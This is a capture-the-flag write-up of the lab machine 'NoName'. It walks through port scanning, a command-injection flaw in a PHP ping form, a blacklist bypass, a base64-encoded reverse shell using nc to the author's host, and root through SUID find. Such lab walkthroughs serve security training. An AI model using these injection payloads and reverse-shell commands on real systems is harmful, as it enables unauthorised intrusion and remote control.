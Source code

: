 # PG Play - NoName

#### Ip: 192.168.183.15
#### Name: NoName
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV   192.168.183.15
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-30 10:20 CDT
Nmap scan report for 192.168.183.15
Host is up (0.071s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Looking at the site on port 80 we find a "fake admin area"

![noname_site.png](../assets/noname_assets/noname_site.png)

Trying to insert a command we get the message `Fake ping executed`

Opening WireShark and listening for packets, we can see the site is indeed able to ping our tun0 address:

![noname_ping.png](../assets/noname_assets/noname_ping.png)

Lets capture this request in Burp and see if we can execute any other commands then `ping`

After quite awhile trying different command injection techniques, I was unable to to get any execution.

Taking a step back and trying some directory fuzzing I find both an `/admin` page as well as a `/superadmin.php` page. 

`/admin` seemed to just be an image gallery. The page source however had an interesting comment: `<!--passphrase:harder-->`. We'll hold onto that and see if we can use it anywhere later.

### Exploitation

Navigating to `superadmin.php` we find a similar functionality as the "fake admin area", but this time we can see the ping being executed in our browser output:

![noname_admin_ping.png](../assets/noname_assets/noname_admin_ping.png)

I can now perform command injection in this field, confirming the vulnerability with: `127.0.0.1 | id`

![noname_ex.png](../assets/noname_assets/noname_ex.png)

Still struggling to get a reverse shell, I decide to check out the superadmin.php file and see several different strings being blacklisted:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

This will make getting a reverse shell a bit more tricky because so many characters are blacklisted. 

Capturing the request in Burp, we can bypass the blacklist at least for now by inserting apostrophes between charcters:

![noname_bypass.png](../assets/noname_assets/noname_bypass.png)

But we'll still need to get a reverse shell here. Lets base64 encode a reverse shell onliner to try to bypass the blacklist:

I'll use:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.208 443 >/tmp/f
```

Base64 encode it, and then use `echo -n (rev_shell) | base64 -d | bash` to pass the command in Burp:

```text
pinger=127.0.0.1+|echo+-n+"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIwOCA0NDMgPi90bXAvZg=="+|+base64+-d+|bash&submitt=Submit+Query
```

Running this with a NC listener going gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.183.15] 50730
bash: cannot set terminal process group (739): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haclabs:/var/www/html$ whoami
whoami
www-data
www-data@haclabs:/var/www/html$ hostname
hostname
haclabs
```

I can now grab the local.txt flag:

![noname_local.png](../assets/noname_assets/noname_local.png)

### Privilege Escalation

Loading linpeas onto the target we see that `find` has the SUID bit set.

![noname_lin.png](../assets/noname_assets/noname_lin.png)

Heading over to GTFObins.com we find the exact command we need to exploit this misconfiguration:

![noname_gtfo.png](../assets/noname_assets/noname_gtfo.png)

`./find . -exec /bin/sh -p \; -quit`

We can execute this command, elevate our shell to root, and grab the final flag:

![noname_root.png](../assets/noname_assets/noname_root.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------
